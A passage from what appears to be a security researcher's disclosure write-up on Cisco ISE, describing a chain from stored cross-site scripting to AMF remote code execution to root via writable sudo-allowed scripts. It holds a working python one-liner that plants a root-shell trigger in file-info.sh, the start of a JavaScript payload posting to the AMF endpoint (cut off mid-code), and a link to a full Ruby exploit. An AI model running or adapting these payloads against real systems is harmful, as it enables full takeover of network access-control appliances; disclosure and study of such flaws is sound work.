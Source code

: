 ```
    (root) NOPASSWD: /opt/CSCOcpm/upgrade/bin/iseupgrade-dbexport.sh *
    (root) NOPASSWD: /opt/CSCOcpm/bin/pxgrid_backup.sh *
    (root) NOPASSWD: /opt/CSCOcpm/bin/pxgrid_restore.sh *
    (root) NOPASSWD: /opt/CSCOcpm/bin/pxgrid_sync.sh *
    (root) NOPASSWD: /opt/CSCOcpm/bin/pbis_monit.sh *
    (root) NOPASSWD: /opt/CSCOcpm/prrt/bin/FIPS_lockdown.sh *
    (root) NOPASSWD: /opt/CSCOcpm/bin/iseupgradeui.sh *
    (root) NOPASSWD: /opt/CSCOcpm/bin/show_iowait.sh *
    (root) NOPASSWD: /opt/CSCOcpm/bin/kerberosprobe.sh *
    (root) NOPASSWD: /opt/CSCOcpm/bin/sxp-servercontrol.sh *
```

However all of the files above are writeable by the iseadminportal user. This makes it trivial to perform privilege escalation to root. All that is needed to do is to edit the files, and add a "/bin/sh" to the second and / or last line, then run the script as sudo to get a root shell.

## End to End exploit
By now you should have a decent idea of how to build a full exploit chain. Since vulnerability #2 (AMF RCE) can only be exploited by an authenticated administrator, we can set up a trap using vulnerability #1 (stored XSS) as an unauthenticated attacker.

The attack sequence is as follows:

1. By abusing the stored cross site scripting (vulnerability #1), we can create a malicious Javascript (payload below) that will be stored in */admin/LiveLogSettingsServlet*
2. If a logged in user visits that page, the Javascript payload will send a *XMLHttpRequest* to */admin/messagebroker/amfsecure* with the payload created by the AMF Java code below (vulnerability #2), achieving remote code execution as the iseadminportal user
3. The exploit code will return a reverse shell, and we can then use the incorrect file permissions (vulnerability #3) to escalate our privileges to root:

```
python -c 'import os;f=open("/opt/CSCOcpm/bin/file-info.sh", "a+", 0);f.write("if [ \"$1\" == 1337 ];then\n/bin/bash\nfi\n");f.close();os.system("sudo /opt/CSCOcpm/bin/file-info.sh 1337")'
```

This python code will add an "if" clause at the end of */opt/CSCOcpm/bin/file-info.sh* that looks for the "1337" parameter, and executes /bin/bash as root when it sees it. That way we won't mess with any important system functionality that might use that file, and we will get our full root shell.

The full exploit, written in Ruby, [is available here](https://github.com/pedrib/PoC/blob/master/exploits/ISEpwn/ISEpwn.rb).

Javascript payload:
```javascript
<script>
function b64toBlob(b64Data, contentType, sliceSize) {
  contentType = contentType || '';
  sliceSize = sliceSize || 512;
  var byteCharacters = atob(b64Data);
  var byteArrays = [];
  for (var offset = 0; offset < byteCharacters.length; offset += sliceSize) {
    var slice = byteCharacters.slice(offset, offset + sliceSize);
    var byteNumbers = new Array(slice.length);
    for (var i = 0; i < slice.length; i++) {
      byteNumbers[i] = slice.charCodeAt(i);
    }
    var byteArray = new Uint8Array(byteNumbers);
    byteArrays.push(byteArray);
  }
  var blob = new Blob(byteArrays, {type: contentType});
  return blob;
}
b64_payload = 'cGlzc2FuZXNzZWN1';
var xhr = new XMLHttpRequest();
xhr.open("POST", 'https://10.10.10.44/admin/messagebroker/amfsecure', true);
```